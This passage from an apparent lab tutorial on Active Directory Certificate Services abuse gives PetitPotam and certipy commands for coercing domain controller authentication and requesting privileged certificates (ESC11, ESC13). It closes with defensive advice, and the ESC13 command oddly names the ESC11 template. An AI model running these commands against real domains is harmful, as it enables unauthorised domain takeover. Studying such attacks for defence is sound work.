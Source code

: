 Then coerce authentication from the Domain Controller, allowing us to request a certificate as the DC Machine account. For example, with PetitPotam:

```
python3 PetitPotam.py 192.168.1.50 192.168.1.2 -u attacker -p 'P@ssw0rd'
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/fc0f0f85-3ef6-49c2-a361-3f6247576086)

<br />

### Exploitation of ESC13

Once you've identified the OID group link ([This](https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1) is a handy script for enumeration), when the certificate is requested it will inherit the permissions of the linked AD group.

```
certipy req -username attacker@lab.lan -password 'P@ssw0rd' -dc-ip 192.168.1.2 -target DC.lab.lan -ca 'lab-CA' -template 'ESC11'
```

<br />

## Conclusion

Depending on the organization, AD CS attacks can be incredibly destructive, usually leading to full Active Directory Domain privilege escalation. Because of the complexity of most Active Directory environments on enterprise networks, misconfigurations can easily be overlooked. Most ESC vulnerabilities are relatively easy to exploit and only require a few commands, while the impact to the organization if an adversary can abuse almost any ESC vulnerability is catastrophic. The most effective way to ensure attackers are unable to abuse the organizations AD CS environment is to conduct frequent audits of the Active Directory environment, utilize defense in depth, and further ensure the organization can find, remediate, and mitigate attacks in the future with a well-organized security program.
